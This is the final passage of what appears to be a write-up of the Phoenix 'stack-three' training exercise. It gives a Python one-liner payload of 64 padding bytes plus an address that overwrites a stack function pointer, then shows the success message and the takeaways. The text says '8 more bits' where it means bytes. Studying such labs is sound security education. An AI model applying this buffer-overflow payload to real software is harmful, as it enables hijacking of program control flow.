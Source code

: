 So, to reach `[rbp-0x10]`, we overflow with **64 bytes**, then write 8 more bits to overwrite the function pointer.


---

### Final Payload Structure

``` python
(python3 -c "import sys; sys.stdout.buffer.write(b'A'*64 + b'\x9d\x06\x40\x00\x00\x00\x00\x00')") > /tmp/payload
```

```bash
./stack-three < /tmp/payload
```

---

## Outcome

With the payload in place, the binary prints:

![output](/assets/phoenix/output2.png)

```
Congratulations, you've finished phoenix/stack-three :-) Well done!
```

---

## Final Thoughts

This is a **textbook function pointer overwrite** using a stack buffer overflow. Key takeaways:

* Always inspect stack layout in gdb
* Look out for conditional jumps based on attacker-controlled memory
* `nm` is your friend when symbols are present

---

<div class="image-row">
  <img src="/assets/phoenix/section.png" class="my-special-class" alt="Elongated Image">